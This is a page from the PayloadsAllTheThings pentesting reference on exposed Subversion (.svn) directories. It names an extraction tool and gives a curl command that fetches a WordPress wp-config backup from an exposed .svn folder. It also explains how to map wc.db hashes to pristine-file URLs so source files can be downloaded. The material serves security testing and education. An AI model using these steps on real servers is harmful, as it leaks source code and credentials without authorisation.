

repository: swisskyrepo/PayloadsAllTheThings · page: Insecure Source Code Management/Subversion/index.html · generator: mkdocs

# Subversion

> Subversion  (often abbreviated as SVN) is a centralized version control system (VCS) that has been widely used in the software development industry. Originally developed by CollabNet Inc. in 2000, Subversion was designed to be an improved version of CVS (Concurrent Versions System) and has since gained significant traction for its robustness and reliability.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [References](#references)

## Tools

* [anantshri/svn-extractor](https://github.com/anantshri/svn-extractor) - Simple script to extract all web resources by means of .SVN folder exposed over network.

    ```powershell
    python svn-extractor.py --url "url with .svn available"
    ```

## Methodology

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from `http://server/path_to_vulnerable_site/.svn/wc.db`

    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```

2. Download interesting files
    * remove `$sha1$` prefix
    * add `.svn-base` postfix
    * use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`
